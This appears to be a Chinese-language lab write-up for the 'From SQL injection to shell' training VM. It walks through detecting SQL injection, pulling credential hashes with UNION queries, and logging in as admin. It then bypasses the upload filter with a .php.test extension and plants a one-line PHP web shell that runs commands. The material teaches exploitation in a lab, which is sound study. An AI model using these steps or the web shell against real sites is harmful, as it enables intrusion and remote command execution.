

# 从SQL注入到shell

## 实验环境

下载IOS镜像（from_sqli_to_shell_i386.iso）并装入虚拟机，查看服务器IP：


攻击者主机浏览器设置代理：


## 实验步骤
### 指纹
使用burp suite查看通信数据：http响应报头，可收集服务器的相关信息，如PHP版本


### 检测并利用SQL注入
#### 基于整数的检测
通过http://10.0.2.15/cat.php?id=1 与 http://10.0.2.15/cat.php?id=2-1 返回的页面相同，说明数据库直接进行了减法，而没有对这种输入过滤， 因此存在SQL注入的可能性


#### 基于字符串的检测
* 使用偶数个 ' 来测试，奇数个单引号会导致语法错误
* 使用 -- 注释查询语句的后部
* 使用 and '1'='1 和and '1'=’0 对比发现漏洞

#### 使用UNION进行SQL注入
* UNION前后的select语句返回列数必须相同，可以递增查询列数从而检测出数据库该查询语句会查询多少列
 - 当猜测列数与实际列数不同时，会返回错误信息  
     
 - 猜测正确时返回的信息
   

* 也可以使用order by来获取列数
 - 
 - 


* 通过@@version获得数据库版本信息
  

* 通过current_user()获得当前用户信息
  

* 通过database()获得数据库名


* 查询表与列的对应关系
  
* 查询user表中的login和password字段  

* 将得到的密码哈希值在线解密，得到密码为P4ssw0rd，成功登陆管理员账户

* 找到文件上传界面，上传一个php脚本
 - 不允许上传PHP文件
 
 - 使用.php.test可以绕过.php过滤，Apache服务器会依然把它当做PHP文件
  
```php
<?php  
  system($_GET['cmd']);
?>
```
* 上传成功后，点开该文件，查看该页面源代码，可以看到php文件在服务器上的存储路径


* 通过设置cmd参数，可以获取服务器的大量信息，并执行代码，如

